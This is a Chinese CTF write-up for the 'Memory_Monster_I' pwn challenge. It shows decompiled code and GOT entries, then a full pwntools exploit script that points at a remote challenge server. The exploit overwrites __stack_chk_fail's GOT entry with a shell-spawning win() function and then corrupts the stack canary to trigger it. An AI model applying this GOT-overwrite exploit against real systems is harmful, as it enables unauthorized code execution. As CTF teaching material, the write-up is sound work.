



### Memory_Monster_I

#### 1x1 分析

安全保护：

```shell
[*] './Memory_Monster_I'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) 地址固定
```

直接分析程序逻辑吧。

`main()`:

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf; // [rsp+20h] [rbp-30h]
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts(s);
  write(1, "addr:", 5uLL);
  read(0, &buf, 0xC8uLL);
  write(1, "data:", 5uLL);
  read(0, (void *)*(unsigned int *)&buf, 0x18uLL);
  return 0LL;
}
```


首先会输出欢迎界面(~~他咋知道我最近在玩MC~~)

**然后随意输入一个地址，然后在这个地址上任意写。**

因为写完程序就直接结束了。

所以我直接想到的就是在`read`结束之后，程序会跑到哪里，很自然的我就想到`__stack_chk_fail`。

他是`libc`里的函数，也就是说只要修改他的`got`就可以任意操作了，很幸运的是，程序里还提供了后门函数

`win()`

```c
// 0x40124a
int win()
{
  return system("/bin/sh");
}
```

也就是说，我们只要把`__stack_chk_fail`的`got`改成`win`，然后故意触发`__stack_chk_fail`，就可以拿到shell了。

**这里有个注意的地方,就是`system`和`__stack_chk_fail`的GOT的位置，他们是相邻的，所以，在修改`__stack_chk_fail`的时候，要注意使用``send`而不是`sendline`,避免把`system@got`破坏掉。**

```shell
[0x404028] __stack_chk_fail@GLIBC_2.4 -> 0x401056 (__stack_chk_fail@plt+6) ◂— push   2
[0x404030] system@GLIBC_2.2.5 -> 0x401066 (system@plt+6) ◂— push   3
```

#### 1x2 调试记录

这是在修改完地址之后，可以看到`__stack_chk_fail@got`已经被修改为`win()`。



然后故意破坏CANARY，就可以触发`__stack_chk_fail()`了。



然后单步进入：可以看到已经进入`win()`函数。



最后拿到shell。

#### 1x3 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

gard_got = 0x404028
win = 0x40124A

# p = process('./Memory_Monster_I')
p = remote('183.129.189.60', 10081)

# gdb.attach(p, '\n')
# pause()

payload = p64(gard_got)
payload = payload + 'a' * 0x20
p.sendafter('addr:', payload + '\n')
# pause()

payload = p64(win)
p.sendafter('data:', payload)
# pause()

p.interactive()
```

### Memory_Monster_II

